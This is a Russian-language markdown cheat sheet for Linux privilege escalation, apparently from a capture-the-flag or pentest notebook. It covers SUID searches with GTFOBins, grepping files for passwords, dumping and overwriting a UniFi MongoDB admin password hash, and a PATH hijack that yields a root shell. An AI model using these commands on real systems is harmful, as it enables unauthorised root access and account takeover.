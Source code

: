 # Linux
1. попытаться использовать `sudo -l`,  далее повысить привелегии командами с ресурса https://gtfobins.github.io/
2. выяснить доступные команды с помощью 
	```
	find / -user root -perm /4000 2> /dev/null
	
	или 
	
	find / -type f -perm -u=s 2> /dev/null
	
	или 
	
	find / -perm -40 2> /dev/null
	
	и снова использовать ресурс https://gtfobins.github.io/
	```
3. Происматривать файлы в поисках пароля: 
	``` 
	cat * | grep -i passw*
	```

4. Проверить mongoDB на пароли, если что заменить их:
	```
	ps aux | grep mongo
	```
	Узнать в Google дефолтное название эксплуатируемой базы данные, например `UniFi Default Database` = ace.
	```
	mongo --port <port_from_ps> <ace или другая> --eval "db.admin.find().forEach(printjson);"
	```
	здесь производится замена пароля для user-а с конкретным id на собственный:
	```
	mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"pass_hash":"$6$mj3tX4VrR7o4c6UH$eCgQcdPg47i.JXsN4T3GJ92NZ6LLtY61VLaYe/1qd5k.Mg9EjpPAAzhhiqbIGUk5iE8/xwz6HR/Q2MrqbweE//"}})'
	```

Следующий способ: найти исполняемый файл или утилиту, который запускается от root но доступен уже сейчас и использует какую-то bush команду. 

Дальше нужно создать файл этой bush команды с содержимым:
``` 
/bin/sh
```
и добавить её в начало переменной PATH:
```
export PATH=/<dir>/<this_comand>:$PATH
```
Далее запустить тот первый исполняемый файл.

